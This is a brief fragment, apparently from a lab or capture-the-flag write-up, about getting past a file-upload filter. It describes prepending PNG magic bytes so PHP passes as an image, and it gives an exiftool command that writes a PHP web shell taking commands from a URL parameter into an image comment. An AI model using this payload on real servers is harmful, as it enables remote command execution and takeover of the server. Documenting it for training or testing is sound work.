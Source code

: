 ![](/img2/Pasted%20image%2020250927140921.png)

> If we add the initial magic numbers of a png image we fool the server and insert php content as if it were an image.

![](/img2/Pasted%20image%2020250927141015.png)

- Method 2

```bash
exiftool -Comment='<?php system($_GET[0]);?>' cmd.png -o cmd.php
```
